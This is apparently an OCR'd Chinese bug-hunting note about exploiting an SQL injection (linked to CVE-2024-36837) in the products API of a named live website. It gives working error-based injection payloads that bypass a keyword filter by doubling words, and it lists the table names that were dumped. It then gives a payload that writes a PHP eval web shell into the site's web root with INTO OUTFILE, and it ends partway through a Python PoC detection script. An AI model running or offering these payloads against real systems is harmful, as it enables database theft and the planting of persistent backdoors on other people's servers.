 ##### user()

![image-20241015094928117](https://image.201068.xyz/assets/src挖掘/image-20241015094928117.png)

##### 表名

```bash
https://zq.xfhanjie.cn/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,(selselectect group_concat(tabtablele_name) from information_schema.tabtableles whwhereere tatableble_schema=datadatabasebase())))),0x7e),3550)+
```

> 过滤：select，table，where，database
>
> 双写绕过

![image-20241015100106710](https://image.201068.xyz/assets/src挖掘/image-20241015100106710.png)

> eb_agent_level,eb_agent_level_task,eb_agent_level_task_record,eb_agreement,eb_app_version,eb_article,eb_article_category,eb_article_content,eb_auxiliary,eb_cache,eb_capital_flow,eb_category,eb_delive'.

##### outfile

> outfile --> ououtfiletfile
>
> into --> inintoto

```bash
select "<?php eval($_POST[xxx]);?>" into outfile '/www/wwwroot/zq.xfhanjie.cn/closure.php'

https://zq.xfhanjie.cn/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,(selselectect "<?php @eval($_POST[xxx]);?>" inintoto outoutfilefile "/www/wwwroot/zq.xfhanjie.cn/closure.php")))),0x7e),3550)+
```

![image-20241015104017755](https://image.201068.xyz/assets/src挖掘/image-20241015104017755.png)

##### poc检测

https://github.com/lhc321-source/CVE-2024-36837

https://github.com/phtcloud-dev/CVE-2024-36837/

https://blog.csdn.net/qq_48368964/article/details/141157893

```bash
#!/usr/bin/env python
# -*- coding: utf-8 -*-
 
# 导入所需的库
import requests
import argparse
import time
from urllib3.exceptions import InsecureRequestWarning
 
# 定义终端输出颜色
RED = '\033[91m'
RESET = '\033[0m'
 
# 忽略不安全请求的警告
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
 
# 定义函数，用于检查URL是否存在特定的SQL注入漏洞
def check_vulnerability(url):
    try:
        # 构造用于检测的URL，添加了特定的SQL注入测试代码
```